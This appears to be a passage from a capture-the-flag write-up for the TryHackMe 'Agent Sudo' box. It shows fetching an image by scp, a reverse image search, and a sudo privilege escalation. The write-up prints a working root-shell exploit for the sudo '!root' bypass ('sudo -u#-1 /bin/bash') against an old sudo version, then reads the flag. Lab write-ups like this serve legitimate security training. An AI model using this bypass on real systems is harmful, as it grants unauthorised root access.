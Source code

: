 Time to fetch the image and inspect it: 

```shell
$ scp james@10.10.185.219:Alien_autospy.jpg .
james@10.10.185.219's password: 
Alien_autospy.jpg   
```

And now we can do a reverse search by image using google: [Google Images](https://www.google.com/imghp?hl=en)
And the answer is: `Roswell alien autopsy`

Time for privilege escalation!

```shell
$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

What is the `ALL, !root` stuff? Seems pretty inconsistent. 🤔 Let’s google it! 
Interesting: [sudo 1.8.27 - Security Bypass - Linux local Exploit](https://www.exploit-db.com/exploits/47502)

```shell
$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Looks like we are vulnerable! 

```shell
$james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# ls /root/
root.txt
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

Bingo!